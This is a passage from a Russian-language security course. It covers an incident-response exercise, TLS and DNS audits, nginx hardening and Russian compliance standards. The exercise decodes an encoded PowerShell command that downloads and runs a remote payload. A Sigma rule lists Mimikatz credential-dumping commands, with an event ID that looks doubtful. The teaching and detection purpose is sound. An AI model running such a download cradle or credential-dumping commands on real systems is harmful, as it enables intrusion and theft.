  "command_line": "powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADAAMAAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAnACkA",
  "network_connection": {
    "dst_ip": "192.168.1.100",
    "dst_port": 443,
    "protocol": "HTTPS",
    "bytes_sent": 1024,
    "bytes_received": 524288
  }
}
```

### Шаг 2: Декодирование PowerShell команды
```bash
# Исходная закодированная команда:
SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADAAMAAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAnACkA

# Декодирование (Base64):
echo "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADAAMAAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAnACkA" | base64 -d | iconv -f utf-16le -t utf-8

# Результат:
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.100/payload.ps1')
```

### Шаг 3: Timeline расследования



### Шаг 4: Sigma-правило для детекции
```yaml
title: Mimikatz Credential Dumping Detection
status: stable
description: Detects Mimikatz use through command line and process access
author: Security Team
date: 2024/01/15
modified: 2026/03/15
references:
    - https://attack.mitre.org/techniques/T1003/
    - ФСТЭК России Приказ №17 требование 6.2
tags:
    - mitre_attack.T1003
    - mitre_attack.T1003.001
    - фстэк.требование.6.2
logsource:
    category: process_creation
    product: windows
detection:
    selection_cmd:
        CommandLine|contains:
            - 'sekurlsa::logonpasswords'
            - 'lsadump::lsa'
            - 'lsadump::dcsync'
            - 'privilege::debug'
            - 'mimikatz'
            - 'mimilib'
    selection_access:
        EventID: 4680
        TargetImage|endswith: 'lsass.exe'
        AccessMask|contains:
            - '0x1FFFFF'
            - '0x1010'
    condition: selection_cmd or selection_access
falsepositives:
    - Penetration testing (согласованное)
    - Security tools (EDR, антивирус)
level: critical
```

### Шаг 5: Playbook реагирования (IR-001)
```markdown
# PLAYBOOK IR-001: PowerShell Malware Execution

## Триггер
- SIEM алерт: "PowerShell Encoded Command Execution"
- EDR алерт: "Suspicious PowerShell Activity"

## Шаг 1: Первоначальная оценка (5 мин)
- [ ] Проверить хост в SIEM
- [ ] Проверить пользователя в AD
- [ ] Проверить сетевые соединения
- [ ] Определить критичность хоста

## Шаг 2: Сдерживание (10 мин)
- [ ] Изолировать хост от сети (Disable-NetAdapter)
- [ ] Заблокировать пользователя AD (Disable-ADAccount)
- [ ] Заблокировать IP на firewall
- [ ] Заблокировать домены в DNS

## Шаг 3: Расследование (30-60 мин)
- [ ] Декодировать PowerShell команду
- [ ] Найти C2 сервера
- [ ] Проверить другие хосты на IOC
- [ ] Собрать forensics (дамп памяти, логи)

## Шаг 4: Ликвидация (60 мин)
- [ ] Удалить вредоносное ПО
- [ ] Сбросить пароли скомпрометированных учёток
- [ ] Переустановить систему если нужно
- [ ] Обновить IOC в SIEM/EDR

## Шаг 5: Восстановление (30 мин)
- [ ] Вернуть хост в сеть
- [ ] Разблокировать пользователя
- [ ] Мониторить 72 часа
- [ ] Обновить правила детекции

## Шаг 6: Отчётность
- [ ] Заполнить форму 7-И (ФСТЭК)
- [ ] Отправить отчёт руководству
- [ ] Провести lessons learned
```
---
# 1.6 Сетевые протоколы и безопасность

## 📘 Теоретическая база (Углублённо)

### Матрица безопасности протоколов

| Протокол | Версия | Шифрование | Аутентификация | Целостность | Статус | Рекомендация |
| :--- | :--- | :---: | :---: | :---: | :---: | :--- |
| **SSL** | 2.0/3.0 | ❌ RC4, MD5 | ⚠️ Слабая | ❌ | 🔴 Запрещён | Отключить немедленно |
| **TLS** | 1.0 | ⚠️ RC4, SHA-1 | ⚠️ Средняя | ⚠️ | 🔴 Устарел | Отключить до 2026 |
| **TLS** | 1.1 | ⚠️ AES-CBC | ⚠️ Средняя | ⚠️ | 🔴 Устарел | Отключить до 2026 |
| **TLS** | 1.2 | ✅ AES-GCM | ✅ Хорошая | ✅ | 🟢 Рекомендуется | Минимальная версия |
| **TLS** | 1.3 | ✅ AES-256-GCM | ✅ Отличная | ✅ | 🟢 Лучше | Использовать везде |
| **SSH** | 1.x | ❌ Нет | ❌ Нет | ❌ | 🔴 Запрещён | Отключить немедленно |
| **SSH** | 2.0 | ✅ AES-256 | ✅ Public Key | ✅ | 🟢 Рекомендуется | Использовать везде |
| **IPsec** | IKEv1 | ⚠️ 3DES | ⚠️ PSK | ⚠️ | 🟡 Допустимо | Мигрировать на IKEv2 |
| **IPsec** | IKEv2 | ✅ AES-256 | ✅ Certificates | ✅ | 🟢 Рекомендуется | Для VPN |
| **DNS** | Plain | ❌ Нет | ❌ Нет | ❌ | 🔴 Небезопасен | Использовать DoH/DoT |
| **DNS** | DNSSEC | ⚠️ Подпись | ✅ Подпись | ✅ | 🟢 Рекомендуется | Для доменов |
| **DNS** | DoH/DoT | ✅ TLS | ✅ TLS | ✅ | 🟢 Лучше | Для клиентов |

## 🔬 Практическая работа №1.6: "Аудит безопасности протоколов"

**Легенда:** Вы — аудитор безопасности. Нужно проверить конфигурацию сервисов компании.
### Шаг 1: Сканирование SSL/TLS (SSL Labs)

```bash
# Использование testssl.sh для аудита SSL/TLS
./testssl.sh --pretty --html example.com

# Пример вывода:
┌─────────────────────────────────────────────────────────────────────────┐
│                    SSL/TLS AUDIT REPORT                                 │
├─────────────────────────────────────────────────────────────────────────┤
│ Protocol Support:                                                       │
│   SSL 2.0: ❌ Not offered (GOOD)                                        │
│   SSL 3.0: ❌ Not offered (GOOD)                                        │
│   TLS 1.0: ⚠️ Offered (DEPRECATED)                                     │
│   TLS 1.1: ⚠️ Offered (DEPRECATED)                                     │
│   TLS 1.2: ✅ Offered (GOOD)                                            │
│   TLS 1.3: ✅ Offered (BEST)                                            │
├─────────────────────────────────────────────────────────────────────────┤
│ Cipher Suites:                                                          │
│   TLS_AES_256_GCM_SHA384: ✅ TLS 1.3 (STRONG)                           │
│   TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384: ✅ TLS 1.2 (STRONG)           │
│   TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA: ⚠️ TLS 1.2 (WEAK)                │
│   TLS_RSA_WITH_3DES_EDE_CBC_SHA: ❌ WEAK (REMOVE)                       │
├─────────────────────────────────────────────────────────────────────────┤
│ Vulnerabilities:                                                        │
│   POODLE (SSL): ❌ Not vulnerable                                       │
│   BEAST (TLS): ❌ Not vulnerable                                        │
│   CRIME (TLS): ❌ Not vulnerable                                        │
│   HEARTBLEED: ❌ Not vulnerable                                         │
│   LOGJAM: ❌ Not vulnerable                                             │
├─────────────────────────────────────────────────────────────────────────┤
│ Certificate:                                                            │
│   Subject: CN=example.com                                               │
│   Issuer: CN=Let's Encrypt Authority X3                                 │
│   Valid From: 2026-01-01                                                │
│   Valid To: 2026-04-01                                                  │
│   Key Size: 2048 bit RSA                                                │
│   Signature: SHA256withRSA                                              │
│   Status: ✅ Valid                                                      │
├─────────────────────────────────────────────────────────────────────────┤
│ Overall Rating: A-                                                      │
│ Recommendation: Disable TLS 1.0/1.1, remove weak ciphers               │
└─────────────────────────────────────────────────────────────────────────┘
```

### Шаг 2: Конфигурация Nginx для максимальной безопасности
```nginx
# ============================================
# NGINX SECURE CONFIGURATION (ФСТЭК 7.3)
# ============================================

http {
    # SSL/TLS настройки
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers 'ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-CHACHA20-POLY1305:ECDHE-RSA-CHACHA20-POLY1305';
    ssl_prefer_server_ciphers on;
    ssl_session_cache shared:SSL:10m;
    ssl_session_timeout 1d;
    ssl_session_tickets off;  # Отключаем tickets для forward secrecy
    
    # OCSP Stapling
    ssl_stapling on;
    ssl_stapling_verify on;
    resolver 8.8.8.8 8.8.4.4 valid=300s;
    resolver_timeout 5s;
    
    # HSTS (HTTP Strict Transport Security)
    add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
    
    # Дополнительные заголовки безопасности
    add_header X-Frame-Options "SAMEORIGIN" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-XSS-Protection "1; mode=block" always;
    add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline';" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    add_header Permissions-Policy "geolocation=(), microphone=(), camera=()" always;
    
    server {
        listen 80;
        server_name example.com;
        return 301 https://$server_name$request_uri;  # Принудительный HTTPS
    }
    
    server {
        listen 443 ssl http2;
        server_name example.com;
        
        ssl_certificate /etc/nginx/ssl/example.com.crt;
        ssl_certificate_key /etc/nginx/ssl/example.com.key;
        
        # DH Parameters (генерировать раз в год)
        # openssl dhparam -out /etc/nginx/ssl/dhparam.pem 4096
        ssl_dhparam /etc/nginx/ssl/dhparam.pem;
        
        location / {
            proxy_pass http://backend;
            proxy_ssl_verify on;
            proxy_ssl_trusted_certificate /etc/nginx/ssl/ca.crt;
        }
    }
}
```

### Шаг 3: Проверка DNS безопасности
```bash
# Проверка DNSSEC
dig example.com DNSSEC +multiline

# Проверка SPF
dig example.com TXT | grep "v=spf1"

# Проверка DKIM
dig selector._domainkey.example.com TXT

# Проверка DMARC
dig _dmarc.example.com TXT

# Пример корректной конфигурации:
# SPF: "v=spf1 include:_spf.google.com ~all"
# DKIM: "v=DKIM1; k=rsa; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQ..."
# DMARC: "v=DMARC1; p=reject; rua=mailto:dmarc@example.com; ruf=mailto:forensic@example.com"
```

### Шаг 4: Таблица уязвимых протоколов

| Протокол | Уязвимость | CVE | Риск | Миграция |
| :--- | :--- | :---: | :---: | :--- |
| **SMBv1** | EternalBlue | CVE-2017-0144 | 🔴 Критичный | SMBv3 |
| **FTP** | Plaintext auth | — | 🔴 Критичный | SFTP/FTPS |
| **Telnet** | Plaintext all | — | 🔴 Критичный | SSH |
| **HTTP** | Plaintext all | — | 🔴 Критичный | HTTPS |
| **SNMPv1/v2** | Community strings | — | 🔴 Критичный | SNMPv3 |
| **TLS 1.0/1.1** | BEAST, POODLE | CVE-2011-3389 | 🟠 Высокий | TLS 1.2+ |
| **RDP** | BlueKeep | CVE-2019-0708 | 🔴 Критичный | NLA + Update |
| **WPA2** | KRACK | CVE-2017-13077 | 🟠 Высокий | WPA3 |

---
# 1.7 Сетевые стандарты и регулирование

## 📘 Теоретическая база (Углублённо)

### Матрица стандартов и регуляторов



#### Сравнение стандартов

| Критерий           | ISO 27001      | NIST CSF          | 152-ФЗ            | ФСТЭК №21           | PCI DSS                    |
| :----------------- | :------------- | :---------------- | :---------------- | :------------------ | :------------------------- |
| **Регион**         | Международный  | США               | Россия            | Россия              | Глобальный                 |
| **Область**        | СМИБ           | Кибербезопасность | ПДн               | ПДн (технические)   | Платёжные карты            |
| **Обязательность** | Добровольно    | Добровольно       | Обязательно       | Обязательно         | Обязательно для эквайринга |
| **Сертификация**   | Да (3 года)    | Нет               | Регистрация в РКН | Аттестация (3 года) | Да (1 год)                 |
| **Штрафы**         | —              | —                 | До 10 млн ₽       | До 500,000 ₽        | До $100,000/мес            |
| **Внедрение**      | 12-18 мес      | 6-12 мес          | 3-6 мес           | 3-6 мес             | 6-12 мес                   |
| **Стоимость**      | $15,000-50,000 | $10,000-30,000    | $5,000-15,000     | $20,000-100,000     | $30,000-100,000            |

### 🔬 Практическая работа №1.7: "Выбор стандарта для организации"

**Легенда:** Вы — консультант по ИБ. Клиенты просят помочь с выбором стандарта.
### Шаг 1: Сценарии клиентов

| Клиент | Профиль | Требования | Рекомендуемый стандарт | Почему |
| :--- | :--- | :--- | :--- | :--- |
| **Банк** | Финансы, карты | Приём платежей | **PCI DSS + СТО БР ИББС** | Обязательно для эквайринга |
| **Госучреждение** | ГИС, ПДн | Обработка ПДн граждан | **152-ФЗ + ФСТЭК №21** | Законодательное требование |
| **IT-компания** | Экспорт, B2B | Доверие партнёров | **ISO 27001** | Международное признание |
| **Облачный провайдер** | IaaS/PaaS | Защита данных клиентов | **ISO 27017/27018** | Специфика облаков |
| **Завод** | АСУ ТП, КИИ | Критическая инфраструктура | **187-ФЗ + ФСТЭК №31** | Категорирование КИИ |
| **Медицина** | Персональные данные | Медицинская тайна | **152-ФЗ + Приказ Минздрава** | Особая категория ПДн |
### Шаг 2: Чек-лист внедрения 152-ФЗ

```markdown
# ЧЕК-ЛИСТ: Внедрение 152-ФЗ (Оператор ПДн)

## Этап 1: Подготовка (1-2 недели)
- [ ] Определить цели обработки ПДн
- [ ] Определить категории ПДн (общие, специальные, биометрические)
- [ ] Определить уровень защищённости (УЗ-1/2/3/4)
- [ ] Назначить ответственного за обработку ПДн
- [ ] Уведомить Роскомнадзор (если требуется)

## Этап 2: Документация (2-4 недели)
- [ ] Политика обработки ПДн
- [ ] Приказ о назначении ответственного
- [ ] Перечень лиц с доступом к ПДн
- [ ] Обязательства о конфиденциальности
- [ ] Инструкция пользователя ИСПДн
- [ ] Модель угроз безопасности ПДн
- [ ] Техническое задание на СЗИ

## Этап 3: Технические меры (4-8 недель)
- [ ] Система разграничения доступа (СЗИ от НСД)
- [ ] Антивирусная защита
- [ ] Межсетевой экран
- [ ] Система обнаружения вторжений
- [ ] Средства криптозащиты (если требуется)
- [ ] Система учёта и хранения носителей
- [ ] Резервное копирование

## Этап 4: Организационные меры (2-4 недели)
- [ ] Обучение сотрудников
- [ ] Журналы учёта (носители, доступ, инциденты)
- [ ] Процедура реагирования на инциденты
- [ ] Оценка эффективности мер защиты

## Этап 5: Аттестация (4-8 недель)
- [ ] Выбор аттестующей организации (ФСТЭК)
- [ ] Проведение испытаний СЗИ
- [ ] Получение аттестата соответствия
- [ ] Ввод системы в эксплуатацию

## Этап 6: Поддержание (постоянно)
- [ ] Ежегодный внутренний аудит
- [ ] Обновление модели угроз (при изменениях)
- [ ] Переаттестация каждые 3 года
- [ ] Отчётность в Роскомнадзор
```

### Шаг 3: Форма уведомления
```
┌─────────────────────────────────────────────────────────────────────────┐
│         УВЕДОМЛЕНИЕ ОБ ОБРАБОТКЕ ПЕРСОНАЛЬНЫХ ДАННЫХ                    │
│                    (152-ФЗ Статья 22)                                   │
├─────────────────────────────────────────────────────────────────────────┤
│ 1. Наименование оператора: ООО "Пример"                                 │
│ 2. Адрес: 123456, г. Москва, ул. Примерная, д. 1                        │
│ 3. Цель обработки: Исполнение договоров, трудоустройство                │
│ 4. Категории ПДн: ФИО, паспорт, ИНН, СНИЛС, телефон, email              │
│ 5. Категории субъектов: Клиенты, сотрудники, кандидаты                  │
│ 6. Действия с ПДн: Сбор, хранение, использование, передача, удаление    │
│ 7. Способы обработки: Автоматизированные, неавтоматизированные          │
│ 8. Меры защиты: СЗИ от НСД, антивирус, МЭ, шифрование                   │
│ 9. Дата начала обработки: 01.04.2026                                    │
│ 10. Дата уведомления: 15.03.2026                                        │
└─────────────────────────────────────────────────────────────────────────┘
```

### Шаг 4: Таблица штрафов за нарушения

| Нарушение | Статья | Штраф (физ.) | Штраф (юр.) | Регулятор |
| :--- | :---: | :---: | :---: | :---: |
| Обработка без согласия | 13.11 КоАП | 5,000 ₽ | 500,000 ₽ | Роскомнадзор |
| Невыполнение 152-ФЗ | 13.11 КоАП | 10,000 ₽ | 10,000,000 ₽ | Роскомнадзор |
| Непредставление отчёта ФСТЭК | 13.12 КоАП | 3,000 ₽ | 500,000 ₽ | ФСТЭК |
| Нарушение требований КИИ | 13.12.1 КоАП | 50,000 ₽ | 50,000,000 ₽ | ФСТЭК |
| Утечка ПДн | 13.11 КоАП | 20,000 ₽ | 10,000,000 ₽ | Роскомнадзор |
| Неправомерный доступ к ИС | 272 УК РФ | — | До 7 лет | МВД/СК |

---
# 📚 Список литературы и ресурсы

## Книги:
1. **Олифер В.Г., Олифер Н.А.** — Компьютерные сети. Принципы, технологии, протоколы. — СПб.: Питер, 2023.
2. **Таненбаум Э., Уэзеролл Д.** — Компьютерные сети. — 5-е изд. — СПб.: Питер, 2022.
3. **Шаньгин В.Ф.** — Информационная безопасность компьютерных систем и сетей. — М.: ФОРУМ, 2023.
4. **Баранов А.В.** — Моделирование угроз информационной безопасности. — М.: Юрайт, 2024.
## Нормативные документы:
1. **ГОСТ Р ИСО/МЭК 27001-2021** — Системы менеджмента информационной безопасности.
2. **ГОСТ Р ИСО/МЭК 27005-2021** — Управление рисками информационной безопасности.
3. **Федеральный закон №152-ФЗ** — О персональных данных.
4. **Федеральный закон №187-ФЗ** — О безопасности критической информационной инфраструктуры РФ.
5. **Приказ ФСТЭК России №17** — Требования по защите информации в ГИС.
6. **Приказ ФСТЭК России №21** — Требования по защите ПДн.
7. **Приказ ФСТЭК России №31** — Требования по защите КИИ.
## Инструменты для практики:
1. **Cisco Packet Tracer** — Бесплатный эмулятор сетей
2. **GNS3 / EVE-NG** — Продвинутые эмуляторы
3. **Wireshark** — Анализ сетевого трафика
4. **Nmap** — Сканирование сети
5. **Splunk Free** — SIEM для обучения
6. **Security Onion** — Дистрибутив для мониторинга безопасности
7. **testssl.sh** — Аудит SSL/TLS
8. **OWASP ZAP** — Тестирование веб-безопасности
